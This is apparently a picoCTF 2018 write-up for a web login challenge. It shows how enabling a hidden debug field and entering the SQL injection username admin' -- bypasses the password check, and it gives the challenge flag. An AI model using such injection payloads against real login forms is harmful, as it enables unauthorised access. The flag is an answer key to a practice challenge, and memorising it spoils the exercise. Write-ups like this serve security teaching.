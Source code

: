 # Problem
There is a website running at [http://2018shell1.picoctf.com:52012](http://2018shell1.picoctf.com:52012). Do you think you can log us in? Try to see if you can login!

## Hints:
There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

## Solution:

We open the website, and we can see many pictures.

![screenshot 1](./screenshot-1.png)

Lets try the "admin login" (from the sidebar panel), and view source

![screenshot 2](./screenshot-2.png)

We can see hidden input with value "0" for debug. Lets change it to 1, and try to login:

![screenshot 3](./screenshot-3.png)

This is probably vulnerable to SQL injection.

Lets try to login with:
* Username:	admin' -- 
* Password: <EMPTY>

The query will be
```SQL
SELECT * FROM users WHERE name='admin' -- AND password=''
```

Nice, got the flag!

![screenshot 4](./screenshot-4.png)

Flag: picoCTF{con4n_r3411y_1snt_1r1sh_c0d93e2f}
